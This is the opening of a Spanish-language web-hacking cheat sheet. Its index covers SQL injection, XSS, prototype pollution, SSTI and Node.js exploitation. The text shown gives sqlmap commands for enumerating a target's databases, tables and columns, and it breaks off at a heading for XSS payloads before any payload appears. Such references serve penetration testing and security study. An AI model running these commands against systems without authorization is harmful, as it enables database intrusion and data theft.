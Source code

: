 
## 🔍 Índice

1. Inyección SQL (SQL Injection)
    
2. Cross-Site Scripting (XSS)
    
3. Prototype Pollution
    
4. Server-Side Template Injection (SSTI)
    
5. Comandos útiles para herramientas (SQLMap, Burp Suite, Curl)
    
6. Explotación de Node.js (`pug`, `fs`, `child_process`)
    
7. Notas adicionales y recomendaciones
    

---

## 1. Inyección SQL (SQL Injection)

### 📌 Concepto

Permitir que un atacante ejecute consultas SQL no autorizadas mediante la manipulación de entradas no sanitizadas.

### 🔑 Comandos útiles

- **SQLMap:** Automatización de detección y explotación.
    
    ```bash
    sqlmap -u "http://target.com/vulnerable.php?id=1" --dbs
    sqlmap -r request.txt --ignore-code 401
    ```
    
- **Búsqueda de tablas y columnas:**
    
    ```bash
    sqlmap -u "http://target.com/vulnerable.php?id=1" --tables -D database_name
    sqlmap -u "http://target.com/vulnerable.php?id=1" --columns -D database_name -T table_name
    ```
    

---

## 2. Cross-Site Scripting (XSS)

### 📌 Concepto

Permitir que un atacante ejecute scripts en el navegador de un usuario mediante la inyección de código malicioso. 

### 🔑 Payloads comunes

- **Reflejado (Stored):**
    